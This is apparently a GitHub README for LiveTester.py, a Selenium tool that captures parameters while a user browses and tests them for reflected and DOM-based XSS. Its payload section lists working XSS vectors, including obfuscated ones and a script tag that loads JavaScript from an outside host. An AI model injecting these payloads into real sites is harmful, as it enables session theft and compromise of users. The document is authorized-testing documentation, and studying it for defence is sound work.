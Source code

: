 # LiveTester.py 🛡️

`LiveTester.py` is an automated **XSS vulnerability tester** that integrates with Selenium to monitor browser activity in real-time and dynamically test discovered URL, form, and cookie parameters for reflected or DOM-based XSS vulnerabilities. You navigate while the program tests.

> ⚠️ **For authorized penetration testing only. Never run this against systems without explicit permission.**

---

## 💡 Features

- Live parameter extraction from:
  - URLs
  - Forms
  - Cookies
  - AJAX requests
- Automated XSS payload injection (GET and POST)
- Real-time alert detection and DOM reflection checks
- Dual Selenium WebDriver setup (navigation + test instance)
- Persistent state management to avoid retesting same parameters
- Configurable thread count, scope whitelist, and delay ranges
- JSON output for results, alerts, and summaries

---

## 🛠️ Requirements

Install with:

```bash
pip install -r requirements.txt
```

**`requirements.txt`:**
```txt
selenium
beautifulsoup4
requests
```
You might want to check the official chromedriver download website: https://googlechromelabs.github.io/chrome-for-testing/#stable

---

## 🚀 Usage

1. Clone the repo or copy `LiveTester.py`.
2. (Optional) Create a `config.json` file:
```json
{
  "whitelist": ["example.com"],
  "max_threads": 3,
  "delay_range": [0.2, 0.3]
}
```
3. Run the script:

```bash
python LiveTester.py
```

4. Use the opened browser to manually navigate the target app.
5. Discovered parameters will be auto-tested in the background.

---

## 📂 Output Files

| File                  | Description                                  |
|-----------------------|----------------------------------------------|
| `collected_parameters.json` | All discovered and queued parameters       |
| `collected_cookies.json`    | Cookies captured during browsing          |
| `xss_results.json`          | GET/POST payload test logs                |
| `xss_alerts.json`           | Confirmed alert/network/DOM-based XSS     |
| `xss_summary.json`          | Summary report with total stats           |
| `tested_params.json`        | Persisted tested parameter names          |

---

## 🧪 Payload Examples

Payloads include DOM and reflected XSS variations such as:

```html
<script>alert("xss")</script>
<img src=x onerror=alert("xss")>
<script src="https://js.rip/shootweb"></script>
<svg onload=alert("xss")>
"><img src=invalid.jpg onerror=eval(atob(this.id)) id=...>
```

And obfuscated / Unicode payloads like:

```html
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
```

---

## 🧠 Tips

- Configure your ChromeDriver path if not in system PATH.
- Use a proxy (like BurpSuite) for deeper inspection during tests.
- Make sure ChromeDriver version matches your Chrome version.
- The script respects scope via `whitelist` to avoid out-of-scope scans.

---

## ⚖️ Legal

This tool is intended for **educational and authorized security research** only. Running this against targets you do not have permission to test is illegal and unethical.

---

## 🙏 Credits

Built with ❤️ by an ethical hacker for safer web applications.

```python
# For ethical testing purposes only.
```

